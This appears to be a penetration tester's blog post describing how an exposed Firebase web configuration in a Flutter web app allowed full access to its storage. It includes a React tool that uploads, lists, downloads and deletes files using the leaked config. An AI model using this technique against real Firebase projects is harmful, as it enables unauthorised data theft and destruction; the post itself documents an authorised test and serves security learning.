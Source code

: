 ```yaml
---
layout: post
title: "Pentest Diaries: Complete Takeover of Firebase Database in Web Application"
tags:
  - Penetration Test
  - Offensive Security
author: "Najam Ul Saqib"
comments: true
description: "I in a penetration test got complete access to Firebase database of a Flutter app; Firebase databases are usually linked with mobile apps so this was a unique experience for me."
date: "2024-04-19"
---
```


On a recent penetration test engagement, I was given a single URL of web application which upon initial reconnaissance turned out to be a Flutter-based application. The application was using web-sockets heavily (I'm observing rising adoption of web-sockets in web apps).

Testing web-sockets is not easy and usually very cumbersome; specially when web-sockets is using some sort of special encoding and often web-sockets are sending multiple messages in a short span of time so it becomes even more difficult to track the functionality of application.

After peeking for some time into web-sockets I couldn't find anything interesting since it was using socket.io library so most of the messages was from the library itself.

I started to look for HTTP messages, which revealed heavy reliance of application on Google products i.e. it was using Google Identity Platform, usage of Firebase as database, and other misc. Google services so definitely attack surface of cloud was there.

That's when I found an interesting endpoint `https://firebase.googleapis.com/v1alpha/projects/-/apps/1:106407******:web:c587eda2473********/webConfig` and request/response looked like this:

![Firebase Configuration](/assets/images/posts/firebase-takeover/config-request.png){:style="display:block; margin-left:auto; margin-right:auto"}

Now I wanted to know how this configuration can be exploited, upon searching for relevant writeups I noticed nearly all of the write-ups referenced to Android apps as Firebase DBs are more commonly used with mobile apps; but it was clear that the information that I've got is not usual.

Upon further research, I found NPM package for Firebase which meant I can build a Javascript app to consume Firebase database, and I followed the following article to create baseline app for Firebase: [Upload files to Firebase Cloud Storage in Firebase v9 with React](https://blog.logrocket.com/firebase-cloud-storage-firebase-v9-react/) and then tweaked it further to perform CRUD operations on the database.

The tweaked version of React app is uploaded on my Github profile which can be accessed [here](https://github.com/njmulsqb/Firebase-Access-Tester)

```js
import "./App.css";
import { useState } from "react";
import { storage } from "./firebase";
import {
  ref,
  getDownloadURL,
  uploadBytesResumable,
  listAll,
  deleteObject,
} from "firebase/storage";

function App() {
  const [imgUrl, setImgUrl] = useState(null);
  const [progressPercent, setProgressPercent] = useState(0);
  const [deleteFileName, setDeleteFileName] = useState("");

  const handleSubmit = (e) => {
    e.preventDefault();
    const file = e.target[0]?.files[0];
    if (!file) return;
    const storageRef = ref(storage, `files/${file.name}`);
    const uploadTask = uploadBytesResumable(storageRef, file);

    uploadTask.on(
      "state_changed",
      (snapshot) => {
        const progress = Math.round(
          (snapshot.bytesTransferred / snapshot.totalBytes) * 100
        );
        setProgressPercent(progress);
      },
      (error) => {
        alert(error);
      },
      () => {
        getDownloadURL(uploadTask.snapshot.ref).then((downloadURL) => {
          setImgUrl(downloadURL);
        });
      }
    );
  };

  const handleDownloadAllContent = () => {
    const storageRef = ref(storage, "files/");

    listAll(storageRef)
      .then((res) => {
        res.items.forEach((itemRef) => {
          getDownloadURL(itemRef)
            .then((downloadURL) => {
              console.log("Downloading:", downloadURL);
            })
            .catch((error) => {
              console.error("Error getting download URL:", error);
            });
        });
      })
      .catch((error) => {
        console.error("Error listing items:", error);
      });
  };

  const handleDeleteFile = () => {
    const fileRef = ref(storage, `files/${deleteFileName}`);
    deleteObject(fileRef)
      .then(() => {
        console.log(`${deleteFileName} deleted successfully`);
        setDeleteFileName("");
      })
      .catch((error) => {
        console.error("Error deleting file:", error);
      });
  };

  return (
    <div className="App">
      <form onSubmit={handleSubmit} className="form">
        <input type="file" />
        <button type="submit">Upload</button>
      </form>
      <button onClick={handleDownloadAllContent}>Download All Content</button>
      <div className="delete-file">
        <input
          type="text"
          value={deleteFileName}
          onChange={(e) => setDeleteFileName(e.target.value)}
          placeholder="Enter filename to delete"
        />
        <button onClick={handleDeleteFile}>Delete File</button>
      </div>
      {!imgUrl && (
        <div className="progress-bar">
          <div className="inner-bar" style={{ width: `${progressPercent}%` }}>
            {progressPercent}%
          </div>
        </div>
      )}
      {imgUrl && <img src={imgUrl} alt="uploaded file" height={200} />}
    </div>
  );
}

export default App;

```
I know the implementation is dirty, but as long as it worked I am okay with it, also the target was to test the DB not to build a responsive web app ;)

Utilizing Firebase library, I was able to access database, upload files, delete files and dump all the data as well, so it was a big win.

![Firebase Data](/assets/images/posts/firebase-takeover/firebase-json.png){:style="display:block; margin-left:auto; margin-right:auto"}

While app frameworks are becoming secure but misconfigurations in cloud are also getting common as their integration with web apps is increasing with every rising day.

Happy Hunting!
